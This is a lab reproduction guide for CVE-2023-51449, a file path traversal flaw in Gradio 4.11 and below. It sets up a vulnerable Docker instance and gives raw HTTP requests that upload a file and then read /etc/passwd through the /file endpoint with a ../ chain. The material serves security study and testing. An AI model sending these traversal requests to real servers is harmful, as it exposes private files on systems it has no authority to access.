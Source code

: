 # Gradio File Path Traversal (CVE-2023-51449)

[中文版本(Chinese version)](README.zh-cn.md)

Gradio is a Python library that allows users to quickly build visual web interfaces for machine learning models without writing any front-end code.

In Gradio versions 4.11 and below, when authentication is not enabled, an attacker who knows the file path can use a public URL to access arbitrary files on the server running the Gradio application.

References:

- <https://github.com/gradio-app/gradio/pull/6833>
- <https://github.com/gradio-app/gradio/security/advisories/GHSA-6qm2-wpxq-7qh2>

## Environment Setup

Execute the following command to start an application built with Gradio 4.10.0:

```
docker compose up -d
```

After the server starts, authentication is disabled by default. You can access the application at `http://your-ip:7860`.

## Vulnerability Reproduction

First, use the upload interface to upload any file and obtain an accessible file path.

```
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files";filename="okmijnuhbygv"
Content-Type: application/octet-stream

123456
-----------------------------250033711231076532771336998311--

```

![](1.png)

Once you have an accessible file path, use the `/file` interface with directory traversal to read arbitrary files from the server, such as `/etc/passwd`:

```
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36 Edg/100.0.1185.36
Connection: close
Accept-Encoding: gzip

```

![](2.png)
